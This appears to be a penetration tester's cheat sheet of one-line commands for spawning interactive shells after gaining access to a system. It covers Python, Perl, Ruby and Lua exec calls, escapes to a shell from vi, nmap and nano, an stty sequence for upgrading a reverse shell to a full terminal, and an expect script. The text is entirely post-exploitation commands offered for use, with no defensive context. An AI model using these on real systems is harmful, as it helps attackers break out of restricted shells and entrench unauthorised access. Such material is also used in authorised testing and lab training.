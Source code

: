 #### Python

```echo os.system("/bin/bash")```

```python -c 'import pty; pty.spawn("/bin/bash")'```

-----


#### Perl

```perl -e 'exec "/bin/sh";'```

```exec "/bin/sh"```

-----


#### Ruby

```exec "/bin/sh"```

-----


#### LUA

```os.execute("/bin/sh")```

-----


#### sh

```/bin/sh -i```

-----


#### Vi

```:!bash```

```:set shell=/bin/bash:shell```

-----


#### nmap

```!sh```

-----


#### nano

```ctrl+r ctrl+x /bin/bash```

-----


#### stty (fixed)

*In reverse shell:*

```python -c 'import pty;pty.spawn("/bin/bash")'```

*ctrl+z (to background)*

*In base OS:*

```stty raw -echo```

```reset```

```export SHELL=bash```

```export TERM=xterm-256color```

```stty rows <num> columns <cols>```

-----


#### expect

*cat sh.exp*

```#!/usr/bin/expect```

```spawn sh```

```interact```

-----

